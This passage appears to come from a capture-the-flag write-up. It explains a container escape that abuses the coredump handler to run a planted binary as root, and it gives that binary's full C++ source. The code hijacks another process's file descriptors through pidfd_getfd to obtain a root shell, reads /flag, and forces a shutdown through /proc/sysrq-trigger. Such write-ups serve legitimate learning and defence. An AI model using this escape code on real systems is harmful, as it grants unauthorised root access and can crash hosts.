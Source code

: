 Later when coredump happened, it will execute our executable file as root in root namespace:
```C
*(size_t*)0=0; //trigger coredump
```

Executable file `root` is used to spawn shell when coredump happened. This is the code looks like:
```c++
void* job(void* x){
	FILE* fp = popen("pidof billy","r");
	fread(buf,1,0x100,fp);
	fclose(fp);
	int pid = strtoull(buf,0,10);
	sprintf(path,"/proc/%d/ns/net",pid);
	int pfd = syscall(SYS_pidfd_open,pid,0);
	int stdinfd = syscall(SYS_pidfd_getfd, pfd, 0, 0);
	int stdoutfd = syscall(SYS_pidfd_getfd, pfd, 1, 0);
	int stderrfd = syscall(SYS_pidfd_getfd, pfd, 2, 0);
	dup2(stdinfd,0);
	dup2(stdoutfd,1);
	dup2(stderrfd,2);
	system("cat /flag;echo o>/proc/sysrq-trigger");
}
int main(int argc,char** argv){	
	job(0);
}
```

